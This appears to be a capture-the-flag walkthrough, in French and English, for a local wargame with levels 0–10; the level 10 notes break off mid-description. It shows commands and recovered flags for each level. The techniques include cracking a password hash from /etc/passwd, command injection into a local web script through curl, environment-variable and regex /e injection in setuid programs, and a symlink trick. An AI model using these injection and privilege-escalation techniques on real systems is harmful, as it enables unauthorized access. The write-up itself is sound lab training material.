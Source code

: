 
# level 0
level00:level00

`find / -group "flag00" 2>/dev/null`
```
/usr/sbin/john
/rofs/usr/sbin/john
```
`cat /usr/sbin/john`
```
cdiiddwpgswtgt
```
`su flag00:cdiiddwpgswtgt -> fail`

`dcode.fr -> rot15 -> 	cdiiddwpgswtgt -> NOTTOOHARDHERE`

`su flag00:nottoohardhere`

`getflag`
```
x24ti5gi3x0ol2eh4esiuxias
```
# level 1
su level01:x24ti5gi3x0ol2eh4esiuxias

`cat /etc/passwd`

flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

su flag01:42hDRfypTqqnw -> fail

john the ripper  [DES 128/128 SSE2-16]) -> ```42hDRfypTqqnw :  abcdefg```

su flag01:abcdef

getflag
```
f2av5il02puano7naaf6adaaf
```

# level 02
su level02:f2av5il02puano7naaf6adaaf

level02.pcap open it with wireshark follow tcp stream -> read pwd flag

Password: ft_wandr...NDRel.L0L -> ft_waNDReL0L

getflag-> kooda2puivaav1idi4f57q8iq

# level 03
su level03:kooda2puivaav1idi4f57q8iq
./level03 -> exploit me
ls -l ./level03 a le groupe flag03
en desassemblant le binaire, la string est ecrite comme ceci "/usr/bin/env echo Exploit me"

en utilisant un autre echo on peut appeler getflag et avoir le flag `qi0maab88jeaj46qoumi7maus`


# level 04
fichier perl qui resume le contenu d'un serveur, imprime le contenu de la variable x
curl "http://127.0.0.1:4747/?x=\$(getflag)"
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

# level 5

you have new mail in /var/mail/level05

find / -group flag05 2>/dev/null

cat /usr/sbin/openarenaserver 

echo 'getflag > /tmp/coucou' > /opt/openarenaserver/coucou


watch cat /tmp/coucou -> viuaaale9huek52boumoomioc


# level 6
su level06:viuaaale9huek52boumoomioc

```
echo '[x ${`$(getflag > /tmp/salut)`}]' > /tmp/coucou
```

./level06 /tmp/coucou

wiok45aaoguiboiki2tuin6ub

# level 7
su level07:wiok45aaoguiboiki2tuin6ub

en desassemblant le binaire on voit qu'il y a un exec et qu'il y a  une string `/bin/echo %s` on voit aussi qu'il appelle une variable d'env avec la fonction getenv

l'env qui est visible grace a la fonction strings c'est LOGNAME
export LOGNAME=\`getflag\`
./level07

fiumuikeil55xe9cu4dood66h

# level 8

su level08:fiumuikeil55xe9cu4dood66h

get token by `ln -s $(pwd)/token /tmp/coucou`
puis ./level08 /tmp/coucou
le nom token est harcode et si le fichier a un autre nom on peut le lire. 
on le voit en regardant en desassenblant
le programme compare le nom du fichier donne en argument et la string "token"

on obtient le token `quif5eloekouj29ke0vouxean`

`flag08:quif5eloekouj29ke0vouxean`

getflag `25749xKZ8L7DkSCwJkT9dyv6f`


# level 9

en utilisant le programme level9 on voit qu'on a faire avec un programme qui ajoute une rotation qui s'incremente abc devient abe et aaa devient abc


while read line; do for (( i=0 ; i<${#line} ; i++ )) ; do echo ${line:$i:1} - $i | bc  ; done ; done < token

xxd -g 1 token > 66 34 6b 6d 6d 36 70 7c 3d 82 7f 70 82 6e 83 82 44 42 83 44 75 7b 7f 8c 89



coucou="66 34 6b 6d 6d 36 70 7c 3d 82 7f 70 82 6e 83 82 44 42 83 44 75 7b 7f 8c 89" ; j=0 ; for i in $coucou ; do  e=$(echo "obase=10; ibase=16; ${i^^}" | bc) ; echo " $e - $j" | bc ; j=$(expr $j + 1)   ; done

donne -> 102 51 105 106 105 49 106 117 53 121 117 101 118 97 117 115 52 49 113 49 97 102 105 117 113


chr() {
  [ "$1" -lt 256 ] || return 1
  printf "\\$(printf '%03o' "$1")"
}

coucou="102 51 105 106 105 49 106 117 53 121 117 101 118 97 117 115 52 49 113 49 97 102 105 117 113" ; for i in $coucou ; do chr $i ; done; echo ""


> f3iji1ju5yuevaus41q1afiuq

su flag09:f3iji1ju5yuevaus41q1afiuq

getflag s5cAJpM8ev6XHw998pRWG728z

# level 10


le level contient un programme qui envoit un fichier a une addresse sur le port 6969
le programme dit qu'on a pas acces au fichier token

un fichier qui contient "aaaaaaa" est envoye 
```
.*( )*.
aaaaaaaaa
```






